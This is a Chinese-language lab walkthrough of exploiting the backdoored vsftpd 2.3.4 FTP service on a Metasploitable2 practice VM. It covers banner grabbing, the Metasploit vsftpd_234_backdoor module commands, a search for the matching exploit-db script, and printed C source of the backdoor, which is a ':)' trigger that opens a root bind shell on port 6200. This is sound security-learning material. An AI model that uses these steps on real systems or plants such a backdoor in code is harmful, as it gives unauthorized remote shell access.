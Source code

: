 ## 渗透FTP服务
0、需要的工具
- telnet
- google，百度等搜索引擎
- metasploit3
- exploit-db
- `find` and `grep`

1、前面`namp -p 0-65535 metasploitable2`的时候有ftp服务。

2、使用telnet工具拿到ftp服务的名字和版本号。
```bash
[root@kali: ~#] telnet metasploitable2 21
Trying 192.168.199.169...
Connected to metasploitable2.
Escape character is '^]'.
220 (vsFTPd 2.3.4)

```  
3、也可以直接去查看metasploitable2上的ftpd服务的名字和版本

4、得到软件名字和版本号，就动用google，百度等搜索引擎，开始找相关的漏洞，
在网上已经有这个版本被人植入后门消息，查看一下，还得到了metasploit的利用，
```bash
msf > use exploit/unix/ftp/vsftpd_234_backdoor
#查看options和payloads
msf > show options
msf > show payloads
#最后确认只需要设置RHOST
msf > set RHOST metasploitable2
msf > exploit
#果断的拿到了shell
```
5、vsFTPd 后门代码片段
- str.c
```C
int
str_contains_space(const struct mystr* p_str)
{
  unsigned int i;
  for (i=0; i < p_str->len; i++)
  {
    if (vsf_sysutil_isspace(p_str->p_buf[i]))
    {
      return 1;
    }
    else if((p_str->p_buf[i]==0x3a) // 对应的字符是`:`
    && (p_str->p_buf[i+1]==0x29))   //对应的字符是`)`
    {
      vsf_sysutil_extra();
    }
  }
  return 0;
}
```
- sysdeputil.c
```C
int
vsf_sysutil_extra(void)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  exit(1); 
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200); 
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa, //会监听一个6200的端口
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  { 
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0); //得到shell
  } 
}
```
6、[vsftpd下载地址](http://ftp.gwdg.de/pub/cert.dfn/tools/net/vsftpd/)

7、我查看源代码方式
```bash
[root@kali: ~#] cd vsftpd
#直接找linux的bin目录
[root@kali: ~#] find . -name "*.c" | xargs grep "/bin"

```
ps: 我得到exploit的方式是通过exploit-db,最开始并不是按早上面的步骤来的。
```bash
[root@kali: ~#] searchsploit vsftp
#在这里找到VSFTPD 2.3.4的一个ruby脚本17491.rb
[root@kali: ~#] locate 17491.rb
/usr/share/exploitdb/platforms/unix/remote/17491.rb
#得到17491.rb的绝对路径,查看这个脚本
[root@kali: ~#] cat /usr/share/exploitdb/platforms/unix/remote/17491.rb
#注释里面已经告诉你了。。。:)

```